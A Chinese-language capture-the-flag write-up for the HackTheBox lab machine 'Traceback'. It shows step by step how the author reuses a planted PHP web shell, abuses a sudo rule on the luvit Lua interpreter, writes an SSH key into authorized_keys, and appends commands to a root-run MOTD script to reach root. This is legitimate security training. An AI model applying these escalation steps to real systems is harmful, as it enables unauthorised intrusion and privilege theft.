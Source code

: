```yaml
---
title: HackTheBox::Traceback
date: 2020-07-17
image: https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120180751.png
description: 
categories: 
- 渗透
tags:
- 提权
---
```

打开是一个黑页

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120180759.png)

看源码有一句hint：

```
<!--Some of the best web shells that you might need ;)-->
```

 

### 利用已有的webshell获得webadmin权限

扫目录，无果，尝试直接Google这句话，果然找到了作者的Github，在作者列出的一堆shell里面一个个尝试，最后找到了[smevk.php](https://github.com/Xh4H/Web-Shells/blob/master/smevk.php)，用户密码admin就进去了，然后直接上传文件getshell。

在/home目录下发现两个文件夹，其中sysadmin没有权限访问，webadmin里面有个note.txt：

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

 

然后我们可以查看webadmin的.bash_history：

.bash_history

 

 

好吧其实这才是原版：

```
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```

大概就是通过 `/home/sysadmin/luvit` 这个东西来执行lua脚本，找了半天并没有找到privesc.lua，我们可以新建一个来执行，由于lua可以用sysadmin权限执行，我们得以读取/home/sysadmin/user.txt；

查看webadmin的权限：

```
(webadmin:/var/www/html) $ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
(webadmin:/var/www/html) $
```

privesc.lua：

```
os.execute("ls /home/sysadmin/")
os.execute("cat /home/sysadmin/user.txt")
```

 

两次分别用蚁剑终端执行：

```
(webadmin:/home/webadmin) $ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
luvit
user.txt
(webadmin:/home/webadmin) $ sudo -u sysadmin /home/sysadmin/luvit privesc.lua
faca73f508ba5f752100d6de13500714
(webadmin:/home/webadmin) $
```

 

### 写公钥获得sysadmin的SSH

运行命令生成RAS公私钥对：

```
ssh-keygen -t rsa
```

 

保存到当前目录，我们可以看到生成了两个文件：

```
root@wh1sper:~/HTB/machine/Traceback# ls -a
.  ..  id_rsa  id_rsa.pub  pspy64  pspy64s  unix-privesc-check  unix-privesc-check.tar
root@wh1sper:~/HTB/machine/Traceback#
```

其中 `id_rsa.pub` 是公钥，我们利用webshell把他上传到 `/home/username/.ssh/authorized_keys` 这个文件里面就可以获得这个user的权限。

既然lua脚本可以读写sysadmin的目录，我们便利用他写sysadmin的公钥：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120180809.png)

 

随后执行命令，用私钥登录SSH：

```
ssh -i id_rsa sysadmin@10.10.10.181
```

可以看到我们是sysadmin了。

 

### 利用pspy工具在没有root的情况下监视高权限进程



pspy工具地址：

https://github.com/DominicBreuker/pspy

https://github.com/Tib3rius/pspy



利用webshell上传到服务器，在当前目录执行：

```
./pspy64 
```

 

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120180819.png)

 

可以看到

标机器每30秒会执行一个cp命令，把一些文件从backup目录复制到/etc/update-motd.d/

```
/bin/sh -c /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

 

我们去查看这个目录下有什么东西：

```
$ cd /etc/update-motd.d/
$ pwd
/etc/update-motd.d
$ ls
00-header  10-help-text  50-motd-news  80-esm  91-release-upgrade
$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
 
[ -r /etc/lsb-release ] && . /etc/lsb-release
 
 
echo "\nWelcome to Xh4H land \n"
$ 
```

 

是不是很熟悉呢？在刚刚登录的时候也是见到了这句话： `Welcome to Xh4H land`

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120180829.png)

 

随后我们监视到，每次登录SSH都会执行以下命令：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120180839.png)

其中能找到这样一条：

```
CMD: UID=0    PID=2007   | /bin/sh /etc/update-motd.d/00-header
```

 

 

### 利用root权限运行的脚本弹shell

目的很明确了，这个00-header脚本是用root执行的，我们测试一下：

```
$ echo 'id' >> 00-header
$ exit
root@wh1sper:~/HTB/machine/Traceback# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
 
Welcome to Xh4H land 
 
uid=0(root) gid=0(root) groups=0(root)
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
Last login: Sat Jul 18 02:23:33 2020 from 10.10.14.98
$
```

 

 

id被执行了。不过这个00-header文件好像一直在被还原，手速要快。

弹之：

~~md蜜汁环境弹不过来~~

反正我们知道/root/root.txt，直接`echo 'cat /root/root.txt' >> 00-header`

然后登录就能看到了：

```
echo 'cat /root/root.txt' >> 00-headerroot@wh1sper:~/HTB/machine/Traceback# ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
 
Welcome to Xh4H land 
 
96c02bb36b51b8f45d59482a4b0c1aba
 
 
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
Last login: Sat Jul 18 02:31:58 2020 from 10.10.14.98
$
```

环境一直有人搅屎。。。建议在美国晚上的时候打